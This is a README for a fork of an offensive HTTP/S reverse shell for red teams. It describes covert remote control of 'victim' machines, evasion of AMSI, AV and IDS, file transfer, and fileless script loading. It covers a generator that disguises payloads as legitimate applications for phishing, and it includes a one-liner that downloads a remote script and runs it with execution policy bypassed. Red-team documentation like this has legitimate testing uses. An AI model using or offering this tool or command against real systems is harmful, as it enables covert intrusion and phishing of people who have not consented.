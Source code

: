 # HTTPS-RevShell-PS3

Revshell focused on red teams and pentesters with AMSI Bypass. This tool provides a reverse connection through the http/s protocol. It uses a covert channel to gain control over the victim machine through web requests and thus evade solutions such as IDS, IPS and AV.

## Original Author
This work is mosty entirely @3v4Si0N very well done job. I have made some customizations to make the code work in a few other scenarios than what was intened.
ALL CREDITS OF THIS PROJECT GOES TO 3v4Si0N and his amazing work. You should fork his project rather than this: https://github.com/3v4Si0N/HTTP-revshell/

# Features

    SSL
    Proxy Aware
    Upload files
    Download files
    Load powershell scripts through the server
    Error Control
    AMSI bypass
    Autocomplete PowerShell functions (optional)
    
    
# Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

## Help Invoke-WebRev.ps1 (client)
Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```


# Extra functions usage
## Upload

This function allow you to upload any file to the victim machine.

Usage:

`upload /src/path/file C:\dest\path\file`

## Download

This function allow you to download a file to the attacker machine.

Usage:

`download C:\src\path\file /dst/path/file`

## Loadps1

This function allows you to load from powershell scripts without having to write to the victim's disk, reading the file through legitimate HTTP traffic.

Usage:

`loadps1 /path/to/the/local/server/PowershellScript.ps1`


# Help Revshell-Generator.ps1 (Automatic Payload Generator)

This script allows you to create an executable file with the payload necessary to use HTTP-revshell, you just need to follow the instructions on the screen to generate it. There are 6 predefined templates and a customizable one, with the data that you like.

The payloads generated by the tool, incorporate the legitimate icon of the application, as well as the product and copyright information of the original application. In addition, each of them opens the original application before establishing the connection with the server, pretending to be a legitimate application. This can be used for phishing or Red Team exercises.

Payload Generator usage:

`powershell -ep bypass "iwr -useb https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/Revshell-Generator.ps1 | iex"`

# Credits

    JoelGMSec for his awesome Revshell-Generator.ps1. Twitter: @JoelGMSec
    

# Disclaimer & License

This script is licensed under LGPLv3+. Direct link to License.

HTTP-revshell should be used for authorized penetration testing and/or nonprofit educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own servers and/or with the server owner's permission.

## Original Author
This work is mosty entirely @3v4Si0N very well done job. I have made some customizations to make the code work in a few other scenarios than what was intened.
ALL CREDITS OF THIS PROJECT GOES TO 3v4Si0N and his amazing work. You should fork his project rather than this: https://github.com/3v4Si0N/HTTP-revshell/
